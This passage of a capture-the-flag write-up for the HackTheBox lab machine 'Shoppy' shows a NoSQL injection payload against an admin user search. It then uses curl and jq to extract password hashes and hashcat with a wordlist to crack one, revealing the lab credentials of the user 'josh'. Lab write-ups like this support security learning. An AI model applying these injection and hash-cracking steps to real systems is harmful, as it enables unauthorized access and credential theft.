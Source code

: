 ```bash
```

- After that i tested the username paramter, and i found that this parameter is vulnerable to NoSQL injection and i used the same payload as previous to get all the users fron the database. `http://shoppy.htb/admin/search-users?username=test%27||%271=1//`\

```bash
goku@exploitation:~$ hashedPasswords=$(curl  http://shoppy.htb/exports/export-search.json | jq '.[].password' | sed 's/\"//g')

goku@exploitation:~$ cat $hashedPasswords
23c6877d9e2b564ef8b32c3a23de27b2
6ebcea65320589ca4f2f1ce039975995

goku@exploitation:~$ userAndPass=$(curl  http://shoppy.htb/exports/export-search.json | jq '.[] | "\(.username):\(.password)"' | sed 's/\"//g')

goku@exploitation:~$ echo $userAndPass
admin:23c6877d9e2b564ef8b32c3a23de27b2
josh:6ebcea65320589ca4f2f1ce039975995

```

- Crack the hash:

```bash
oku@exploitation:~$ echo $hashedPasswords > hash_to_crack.txt
goku@exploitation:~$ cat hash_to_crack.txt
23c6877d9e2b564ef8b32c3a23de27b2
6ebcea65320589ca4f2f1ce039975995

# Start hashcat
goku@exploitation:~$ hashcat -m 0 -a 0 -o cracked_hash.txt hash_to_crack.txt  /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

# The hash for the "josh" user was cracked
goku@exploitation:~$ cat cracked_hash.txt
6ebcea65320589ca4f2f1ce039975995:remembermethisway

goku@exploitation:~$ echo $userAndPass > userAndPassComb.txt
goku@exploitation:~$ diff userAndPassComb.txt cracked_hash.txt
1,2c1
< admin:23c6877d9e2b564ef8b32c3a23de27b2
< josh:6ebcea65320589ca4f2f1ce039975995
---
> 6ebcea65320589ca4f2f1ce039975995:remembermethisway
goku@exploitation:~$

```

- Credentials:

```bash
# username="josh"
# password="remembermethisway"
```
